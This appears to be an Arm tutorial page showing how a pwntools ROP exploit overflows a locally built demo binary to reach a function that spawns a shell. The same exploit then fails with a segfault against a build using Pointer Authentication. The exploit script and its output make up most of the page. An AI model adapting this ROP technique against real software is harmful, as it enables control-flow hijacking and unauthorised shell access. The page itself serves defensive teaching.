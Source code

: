 ```yaml
---
# User change
title: "Exploit applications built without Pointer Authentication instructions"

weight: 3 # 1 is first, 2 is second, etc.

# Do not modify
layout: "learningpathall"
---
```



## Pre-requisites

Install python dependencies and `pwntools` on your c7g EC2 instance. We will use this exploit development library to demonstrate how you can exploit the application we built in the previous section without pointer authentication.
 
```console
sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```

## Write the python script to exploit the application

Eith editor of choice create the script `exploit.py`

```console
vi exploit.py
```

Now copy the contents below into `exploit.py`

```console
#!/usr/bin/env python3

from pwn import *

context(os='linux', arch='aarch64')


binary = ELF('./main_nopac')

rop = ROP(binary)

padding = b'A' * 24

rop.call(binary.symbols['func2']) # return to func2

print(rop.gadgets)
log.info("ROP chain:\n" + rop.dump())

print(rop.chain())
data = padding + rop.chain()
print(data)
data = data.replace(b'\0',b'')

print(data)
r = process(['./main_nopac', data])

r.interactive()
```


## Run exploit.py on `main_nopac`

Let us run this script which exploits `main_nopac`

```console
./exploit.py
```

You will the output below

```console
[*] '/home/ubuntu/pac-test/main_nopac'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 2 cached gadgets for './main_nopac'
{4194964: Gadget(0x400294, ['ret'], [], 0x8), 4257924: Gadget(0x40f884, ['ret', 'ret'], [], 0x10)}
[*] ROP chain:
    0x0000:         0x4006f8 0x4006f8()
b'\xf8\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xf8\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xf8\x06@'
[+] Starting local process './main_nopac': pid 48515
[*] Switching to interactive mode
Hello World!
$
```

You will be at an interactive shell prompt when you execute this script. You can use the interactive shell and run any commands. You were able to successfully exploit the flow control execution of the program and jump to address `0x4006f8` which maps to entry address of `func2` in `main.c`. `func2` invokes the interactive shell `/bin/sh`. With a legitimate flow of execution, `func2` would never be invoked and you would not be able to get to an interactive shell prompt.

### Run exploit.py on `main_pac`

This time we will use the same exploit.py script but run it on the `main_pac` application which was built with PAC instructions for enhanced security.

Just replace the arguments passed in the elf and process commands with `main_pac` instead and save to a new file `exploit_pac.py`

```console
sed 's/main_nopac/main_pac/g' exploit.py > exploit_pac.py
```

Now execute `exploit_pac.py`

```console
chmod +x exploit_pac.py
./exploit_pac.py
```

This time you will not be able to use the interactive shell prompt and get a SIGSEV instead. As the signed PAC instruction could not be authenticated we were not able to exploit the application.

```console
[*] '/home/ubuntu/pac-test/main_pac'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 2 cached gadgets for './main_pac'
{4194964: Gadget(0x400294, ['ret'], [], 0x8), 4257924: Gadget(0x40f884, ['ret', 'ret'], [], 0x10)}
[*] ROP chain:
    0x0000:         0x4006fc 0x4006fc()
b'\xfc\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xfc\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xfc\x06@'
[+] Starting local process './main_pac': pid 48554
[*] Switching to interactive mode
Hello World!
[*] Got EOF while reading in interactive
$
[*] Process './main_pac' stopped with exit code -11 (SIGSEGV) (pid 48554)
[*] Got EOF while sending in interactive
```

